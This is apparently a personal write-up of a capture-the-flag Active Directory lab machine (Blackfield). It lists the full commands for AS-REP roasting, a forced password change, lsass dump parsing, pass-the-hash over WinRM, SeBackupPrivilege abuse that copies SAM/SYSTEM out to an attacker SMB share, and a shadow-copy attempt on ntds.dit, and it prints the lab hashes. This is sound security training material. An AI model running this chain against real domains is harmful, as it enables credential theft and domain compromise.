Start: 2026-10-05, 14:55

IP:
```
10.129.229.17
```
----

ports

```
sudo nmap -p- -Pn -n -vv --min-rate=5000 10.129.229.17 -oG network/nmap_ports.txt
```



DNS, Kerberos, RPC, LDAP, SMB, WinRM -> Active Directory, Domain Controller

service

```
sudo nmap -p53,88,135,389,445,593,3268,5985 -sCV 10.129.229.17 -oN network/nmap_service.txt
```



Kerberos time: 2026-10-05 20:58:20

Domain: BLACKFIELD.local

Hostname: DC01

SMB message signing required

Off sync, 7 hours behind the target DC

Adding IP - FQDN, Domain, Hostname to `/etc/hosts`



Unauthenticated queries:

smb

```
nxc smb 10.129.229.17 -u '' -p ''
```
```
nxc smb 10.129.229.17 -u 'guest' -p ''
```

OS: Windows 10 / Server 2019 Build 17763 x64

guest authentication valid over SMB

ldap not responding

Enumerating shares:
```
nxc smb 10.129.229.17 -u 'guest' -p '' --shares
```



READ permission over `profiles$` share

reading it

```
smbclient -U guest //DC01/profiles$
```
```
ls
```



Big list of directories with usernames as name. notice svc_backup.

Check all usernames to see if the svc and/or any other is valid. Copy all the content to a file output.txt and clean it with awk:

```
cat output.txt | awk '{print $1}' > users.txt
```

To validate using kerbrute first sync to DC. (switched host)

```
sudo net time set -S 10.129.229.17
```

```
kerbrute userenum -d BLACKFIELD.local --dc DC01 users.txt
```



Create valid_users.txt

3 valid accounts
- d
- audit2020
- svc_backup
- support

Checking for any user with No-Preauth set (AS-REP)

```
GetNPUsers.py BLACKFIELD.local/ -usersfile valid_users.txt -dc-ip 10.129.229.17 -format hashcat
```



`support` account have `UF_DONT_REQUIRE_PREAUTH` set. Saving hash to `blackfield.local.support.hash`

Searching https://hashcat.net/wiki/doku.php?id=example_hashes 

Ctrl + F, paste hash prefix: `$krb5asrep$23$`



Mode 18200

Cracking

```
hashcat -m 18200 blackfield.local.support.hash rockyou.txt
```



Cracked. 

Password: `#00^BlackKnight`

Credential:
```
support
```
```
#00^BlackKnight
``` 

Validating credential:

SMB:

```
nxc smb 10.129.229.17 -u 'support' -p '#00^BlackKnight'
```



Valid via SMB

ldap not responding

winrm not valid as expected

Enumerating the Domain with Bloodhound. Using rusthound collector:

```
./rusthound-ce -d BLACKFIELD.local -u 'support' -p '#00^BlackKnight' -f DC01 -z
```



Stop: 16:20

Break

Start: 16:50

Opening locally deployed BloodHound CE web graph viewer

```
curl -L https://ghst.ly/getbhce -o docker-compose.yml
sudo docker compose up
```

Browse: http://localhost:8080

Username: admin

Password: (Look terminal output)

Upload the .zip

Explore > Search: "SUPPORT@BLACKFIELD.LOCAL"

Right click -> Add to Owned

Administration > BH Configuration > Analyze Now

Wait few seconds

Explore > Cypher > Saved Queries > Shortest path from owned objects



`support` has `ForceChangePassword` right over `audit2020`

Change password

```
net rpc password "audit2020" "SETp@ssword2026" -U "BLACKFIELD.local"/"support"%"#00^BlackKnight" -S "10.129.229.17"
```

Check

```
nxc smb 10.129.229.17 -u 'audit2020' -p 'SETp@ssword2026'
```



Credential:
```
audit2020
```
```
SETp@ssword2026
```

Enumerating shares

```
nxc smb 10.129.229.17 -u 'audit2020' -p 'SETp@ssword2026' --shares
```



READ permission over `forensic`, `IPC$`, `NETLOGON`, `profiles$` and `SYSVOL`

```
smbclient -U audit2020 //DC01/forensic
```
```
ls
```



```
cd memory_analysis\
```
```
ls
```



lsass.zip stands out, may contain the LSASS file ("**LSASS** handles both local and domain credentials, managing in-memory credential caches that include plaintext passwords, hashes, and Kerberos tickets.")

```
get lsass.zip
```

```
unzip lsass.zip
```



`lsass.dmp`

Searching for tools to read it find: https://github.com/skelsec/pypykatz

Install it (used pip)

```
pypykatz lsa
```



Needs type of file

```
file lsass.DMP
```


Mini Dump

```
pypykatz lsa minidump lsass.DMP
```


Credential: (Service account)

```
svc_backup
```
```
9658d1d1dcd9250115e2205d9f48400d
```



Credential: (Machine account)

```
DC01$
```
```
b624dc83a27cc29da11d9bf25efea796
```



Credential:

```
Administrator
```
```
7f1e4ff8c6a8e6b6fcae2d9c0572cd62
```

Validating credentials / NT hashes:

svc_backup:

```
nxc smb 10.129.229.17 -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'
```



Valid.

`DC01$`:

```
nxc smb 10.129.229.17 -u 'dc01$' -H 'b624dc83a27cc29da11d9bf25efea796'
```

Not valid

Adminsitrator:

```
nxc smb 10.129.229.17 -u 'Administrator' -H '7f1e4ff8c6a8e6b6fcae2d9c0572cd62'
```

Not valid

Continuing with new valid credential:

```
svc_backup
```
```
9658d1d1dcd9250115e2205d9f48400d
```

Checking winrm access

```
nxc winrm 10.129.229.17 -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'
```



Valid

Connecting via WinRM

```
evil-winrm -i DC01 -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'
```

```
whoami ; ipconfig
```



Connected as `svc_backup` to the target system `DC01` with IP: 10.129.229.17

```
type C:\Users\svc_backup\Desktop\user.txt
```



user.txt: `3920bb317a0bef51027e2852be64b543`


Added audit2020 and svc_backup to owned objects

Administration > BH Configuration > Analyze Now

Wait few seconds

Explore > Cypher > Saved Queries > Shortest path from owned objects

Nothing that stands out as a escalation path, also no interesting AD enrollment/cerfificates 

Enumerating controlled account privileges

```
whomai /priv
```


`SeBackupprivilege` and `SeRestorePrivilege`

Copy and save `sam`

```
reg save hklm\sam .\sam.save
```

Copy and save `system`

```
reg save hklm\system .\system.save
```

Download to local system (evil winrm shell)

```
download sam.save
```
```
download system.save
```

(system can take a bit to download)

Problem downloading system



Using smbserver

```
impacket-smbserver -smb2support "share" ./
```

On target machine

```
cp .\*.save \\10.10.14.204\share\
```

Reading credentials

```
impacket-secretsdump -sam sam.save -system system.save LOCAL
```


Administrator credential

```
Administrator
```
```NTLM
aad3b435b51404eeaad3b435b51404ee:67ef902eae0d740df6257f273de75051
```

Validating

```
evil-winrm -i DC01 -u 'Administrator' -H '67ef902eae0d740df6257f273de75051'
```

```
whoami ; ipconfig
```



times out...


Getting ntds.dit as well

```
New-Item -Name "script.txt" -ItemType File
```

diskshadow script:

```
set verbose on  
set metadata C:\Windows\Temp\meta.cab  
set context clientaccessible  
set context persistent  
begin backup  
add volume C: alias cdrive  
create  
expose %cdrive% E:  
end backup
```

```
Set-Content -Path C:\Users\svc_backup\Documents\script.txt -Value "set verbose on  
set metadata C:\Windows\Temp\meta.cab  
set context clientaccessible  
set context persistent  
begin backup  
add volume C: alias cdrive  
create  
expose %cdrive% E:  
end backup"

```

```
diskshadow /s script.txt
```

```
robocopy /b E:\Windows\ntds C:\temp\ntds.dit
```



Is downloaded as a directory, without contents. Tried diferent times with different paths, synyax, ... 
Connecting and working with evil-winrm is being tedious as is very slow and sometimes not connecting, hanging out thinking with simple commands. Extracting ntds.dit complicates. 
Validating the obtained NTLM hash for administrator find neither the NTLM hash or NT part is working for nxc and sometimes nxc is even not responding with output. Its starting to be a lost of energy and time, ending the test now with doubts about administrator credential validity and only having obtained user.txt.

End: 2026-10-05, 19:20

---
#### Post testing
##### Time frame
Start: 2026-10-05, 14:55

Stop: 2026-10-05, 16:20

Start: 2026-10-05, 16:50

End: 2026-10-05, 19:20

Total time: 1h 25min + 2h 30min = 3h 55min

##### Techniques:
- Validating list of usernames via Kerberos (with Kerbrute)
- Enumerating users with No-PreAuth set -> AS-REP roasting
- ACL, ForceChangePassword abuse -> Change password
- Read contents of lsass.dmp (with pypykatz, Linux)
- Abusing SeBackupprivilege / SeRestorePrivilege -> Copy SAM, system, ntds.dit

##### Sources:
- Hash types and mode: https://hashcat.net/wiki/doku.php?id=example_hashes
- SeBackup: https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/
- SeBackup: https://notes.lfgberg.org/windows/privesc/SeBackupPrivilege
- smbserver: https://github.com/fortra/impacket/blob/master/examples/smbserver.py
- pypykatz: https://github.com/skelsec/pypykatz
